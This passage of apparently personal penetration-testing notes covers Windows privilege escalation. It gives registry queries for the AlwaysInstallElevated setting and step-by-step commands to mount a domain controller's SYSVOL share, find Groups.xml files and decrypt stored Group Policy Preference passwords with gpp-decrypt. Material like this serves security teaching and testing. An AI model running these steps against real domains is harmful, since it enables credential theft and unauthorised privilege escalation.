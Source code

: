     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    http://toshellandback.com/2015/11/24/ms-priv-esc/

## Group Policy Preference

If the machine belongs to a domain and your user has access to System Volume Information there might be some sensitive files there.

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables

    # Output environment-variables
    set

    # Look for the following:
    LOGONSERVER=\\NAMEOFSERVER
    USERDNSDOMAIN=WHATEVER.LOCAL

    # Look up ip-addres
    nslookup nameofserver.whatever.local

    # It will output something like this
    Address:  192.168.1.101

    # Now we mount it
    net use z: \\192.168.1.101\SYSVOL

    # And enter it
    z:

    # Now we search for the groups.xml file
    dir Groups.xml /s

If we find the file with a password in it, we can decrypt it like this in Kali

    gpp-decrypt encryptedpassword

    Services\Services.xml: Element-Specific Attributes
    ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
    Printers\Printers.xml: SharedPrinter Element
    Drives\Drives.xml: Element-Specific Attributes
    DataSources\DataSources.xml: Element-Specific Attributes
